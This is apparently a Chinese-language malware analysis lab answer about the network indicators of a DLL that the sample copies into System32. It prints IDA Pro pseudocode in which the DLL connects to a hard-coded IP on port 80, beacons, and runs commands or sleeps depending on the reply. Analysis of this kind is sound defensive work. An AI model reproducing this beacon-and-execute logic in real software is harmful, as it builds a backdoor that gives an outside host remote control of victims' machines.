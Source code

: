 > What network-based indicators could be used to find this malware on infected machines?

根据前面的分析，可执行文件通过将动态链接库复制到 `C:/Windows/System32` 这个文件夹下，然后通过这个动态链接库进行进程、网络相关的动作，因此我们分析这个动态链接库。`.data` 段全局字符串：

![01.dll.PEexplorer.data](./01.dll.PEexplorer.data.png)

其中 `exec` 和一个 `127.26.152.13` 这个为 IP 地址格式的字符串非常可疑。为了分析该动态链接库的网络特征，我们查找调用第二个字符串的位置 `.text:100010A3`，使用 `IDA Pro` 分析出以下的伪代码：

```c
//...
v3 = socket(2, 1, 6);
if ( v3 != -1 )
{
    name.sa_family = 2;
    *(_DWORD *)&name.sa_data[2] = inet_addr(cp);
    *(_WORD *)name.sa_data = htons(0x50u);
    if ( connect(v3, &name, 16) != -1 )
    {
        while ( send(v3, ::buf, strlen(::buf), 0) != -1 && shutdown(v3, 1) != -1 )
        {
            if ( recv(v3, &buf, 4096, 0) > 0 )
            {
                if ( !strncmp(Str1, &buf, 5u) )
                {
                    Sleep(0x60000u);
                }
                else if ( !strncmp(aExec, &buf, 4u) )
                {
                    memset(&StartupInfo, 0, sizeof(StartupInfo));
                    StartupInfo.cb = 68;
                    CreateProcessA(0, &CommandLine, 0, 0, 1, 0x8000000u, 0, 0, &StartupInfo, &ProcessInformation);
                }
                else
                {
                    if ( buf == 113 )
                    {
                        CloseHandle(hObject);
                        break;
                    }
                    Sleep(0x60000u);
                }
            }
        }
    }
    closesocket(v3);
}
//...
```
